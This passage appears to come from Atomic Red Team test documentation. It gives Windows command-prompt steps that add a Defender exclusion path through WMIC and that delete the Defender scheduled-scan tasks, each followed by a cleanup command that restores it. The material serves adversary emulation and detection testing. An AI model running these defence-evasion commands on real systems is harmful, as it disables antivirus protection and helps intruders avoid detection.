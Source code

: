 
**auto_generated_guid:** 59d386fc-3a4b-41b8-850d-9e3eee24dfe4






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic.exe /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"ATOMICREDTEAM\"
```

#### Cleanup Commands:
```cmd
wmic.exe /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Remove ExclusionPath=\"ATOMICREDTEAM\"
```





<br/>
<br/>

## Atomic Test #37 - Delete Windows Defender Scheduled Tasks
The following atomic test will delete the Windows Defender scheduled tasks.

[Reference](https://thedfirreport.com/2022/05/09/seo-poisoning-a-gootloader-story/)

**Supported Platforms:** Windows


**auto_generated_guid:** 4b841aa1-0d05-4b32-bbe7-7564346e7c76






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
IF EXIST "%temp%\Windows_Defender_Scheduled_Scan.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f )
IF EXIST "%temp%\Windows_Defender_Cleanup.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f )
IF EXIST "%temp%\Windows_Defender_Verification.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f )
IF EXIST "%temp%\Windows_Defender_Cache_Maintenance.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f )
```

#### Cleanup Commands:
```cmd
schtasks /create /xml "%temp%\Windows_Defender_Scheduled_Scan.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f
schtasks /create /xml "%temp%\Windows_Defender_Cleanup.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f
schtasks /create /xml "%temp%\Windows_Defender_Verification.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f
schtasks /create /xml "%temp%\Windows_Defender_Cache_Maintenance.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f
```
